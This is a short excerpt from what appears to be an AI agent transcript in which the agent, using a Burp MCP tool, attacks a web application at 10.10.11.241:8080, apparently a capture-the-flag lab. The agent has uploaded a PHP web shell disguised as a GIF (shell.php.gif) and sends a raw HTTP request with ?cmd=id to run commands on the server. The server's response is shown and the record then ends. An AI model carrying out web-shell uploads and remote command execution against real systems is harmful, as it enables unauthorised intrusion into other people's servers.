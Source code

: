 # Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
The success.php page confirms that our file was uploaded successfully, but it doesn't provide information about where the file was stored. Let's try to find the location of our uploaded file.

Common locations for uploaded files in web applications include:
1. /uploads/
2. /images/
3. /files/
4. /media/
5. /assets/

Let's try to access our uploaded shell in these common directories. We'll start with /uploads/shell.php.gif and see if we can execute commands.
</thinking>

The success page confirms our file was uploaded successfully, but it doesn't tell us where the file was stored. Let's try to find our uploaded shell by checking common upload directories.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /uploads/shell.php.gif?cmd=id HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:39:00 GMT
Server: Apache/2.4.55 (Ubuntu)
Last-Modified: Wed, 07 May 2025 23:38:47 GMT
ETag: "8d-634943c061ca8"
Accept-Ranges: bytes
Content-Length: 141
Connection: close
Content-Type: image/gif
